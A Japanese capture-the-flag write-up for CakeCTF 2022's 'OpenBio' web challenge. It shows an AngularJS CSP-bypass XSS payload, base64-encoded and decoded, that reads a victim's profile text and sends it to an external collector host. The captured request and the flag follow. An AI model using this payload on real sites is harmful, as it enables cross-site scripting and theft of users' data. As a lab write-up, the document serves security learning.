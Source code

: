 # OpenBio:web:135pts
CSP + httponly = [invulnerable](http://web1.2022.cakectf.com:8003/)  

[openbio_357d4ebeb546dfeef981399a5ff12076.tar.gz](openbio_357d4ebeb546dfeef981399a5ff12076.tar.gz)  

# Solution
リンクとソースが渡される。  
アクセスするとユーザ登録ページがあり、ログインするとテキストをプロフィールに設定できるようだ。  
satoki - OpenBio  
![site1.png](site/site1.png)  
ユーザ名を`satoki`にすると、プロフィールのリンクは`http://web1.2022.cakectf.com:8003/profile/satoki`となる。  
問題名の通りCSPなどが入っており、任意のスクリプトは実行できない。  
ただしCSPに甘い箇所があるのでバイパス可能であり、その後に右端に見えるreCAPTCHAなどを使うと予想していた。  
ここで、プロフィールをスパムとして報告するとクローラーがたどることから、各ユーザが自由に他者のプロフィールを閲覧できることに気づく。  
絶対に削除されているだろうが、ためしに作問者の`ptr-yudai`さんのプロフィールページを見る。  
![site2.png](site/site2.png)  
プロフィールのテキスト部分を見ると以下のようであった。  
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>ptr-yudai - OpenBio</title>
~~~
                <p class="uk-text-large"><script src="https://cdn.jsdelivr.net/npm/angular@1.8.3/angular.min.js"></script>
<div ng-app ng-csp>{{$eval.constructor('eval(atob("CiQoZG9jdW1lbnQpLnJlYWR5KGZ1bmN0aW9uKCkgewogICQuZ2V0KCcvJywgKGRhdGEpID0+IHsKICAgIGxldCByeCA9IC88dGV4dGFyZWEgY2xhc3MuKz4oLiopPFwvdGV4dGFyZWE+L2c7CiAgICBsZXQgYXJyID0gcnguZXhlYyhkYXRhKTsKICAgIGxldCBiaW8gPSBhcnJbMV07CiAgICBpZiAoYmlvLmluZGV4T2YoImZsYWciKSAhPT0gLTEpIHsKICAgICAgbG9jYXRpb24uaHJlZiA9ICJodHRwOi8vcG9ucG9ubWFydS50azoxODAwMi8/eD0iICsgYnRvYShiaW8pOwogICAgfSBlbHNlIHsKICAgICAgYWxlcnQoIlJlcG9ydCBtZSIpOwogICAgfQogIH0pOwp9KTsK"))')()}}</div>
zunda</p>
~~~
```
明らかにテスト時のペイロードが残っており、angularのCSPバイパスが見える。  
base64されたコードがあるので、デコードすると以下のようになった。  
```javascript
$(document).ready(function() {
  $.get('/', (data) => {
    let rx = /<textarea class.+>(.*)<\/textarea>/g;
    let arr = rx.exec(data);
    let bio = arr[1];
    if (bio.indexOf("flag") !== -1) {
      location.href = "http://ponponmaru.tk:18002/?x=" + btoa(bio);
    } else {
      alert("Report me");
    }
  });
});
```
`http://ponponmaru.tk:18002/`にbioを送信している。  
ここを自身のサーバに変えたものを、プロフィールに設定する。  
投稿するペイロードは以下になる(サーバは[RequestBin.com](https://requestbin.com/)を用いた)。  
```html
<script src="https://cdn.jsdelivr.net/npm/angular@1.8.3/angular.min.js"></script>
<div ng-app ng-csp>{{$eval.constructor('eval(atob("CiQoZG9jdW1lbnQpLnJlYWR5KGZ1bmN0aW9uKCkgewogICQuZ2V0KCcvJywgKGRhdGEpID0+IHsKICAgIGxldCByeCA9IC88dGV4dGFyZWEgY2xhc3MuKz4oLiopPFwvdGV4dGFyZWE+L2c7CiAgICBsZXQgYXJyID0gcnguZXhlYyhkYXRhKTsKICAgIGxldCBiaW8gPSBhcnJbMV07CiAgICBpZiAoYmlvLmluZGV4T2YoImZsYWciKSAhPT0gLTEpIHsKICAgICAgbG9jYXRpb24uaHJlZiA9ICJodHRwczovL3h4eHh4eHh4eHh4eHgueC5waXBlZHJlYW0ubmV0Lz94PSIgKyBidG9hKGJpbyk7CiAgICB9IGVsc2UgewogICAgICBhbGVydCgiUmVwb3J0IG1lIik7CiAgICB9CiAgfSk7Cn0pOwo="))')()}}</div>
satoki
```
その後、プロフィールを報告すると以下のリクエストが自身のサーバに届いた。  
```
GET
/?x=WW91IGhhY2tlZCBtZSEgVGhlIGZsYWcgaXMgQ2FrZUNURntodHRwb25seT10cnVlX2QwM3NfbjB0X3ByMHQzY3RfVV8xbl9tNG55X2M0czNzIX0=
```
デコードすると以下のようになった。  
```
You hacked me! The flag is CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}
```
flagが得られた。  
この新たな攻撃手法は、`ptr-yudai`さんを介したスクリプト実行なので**Cross-Yudai Scripting**と命名することとする。  

## CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}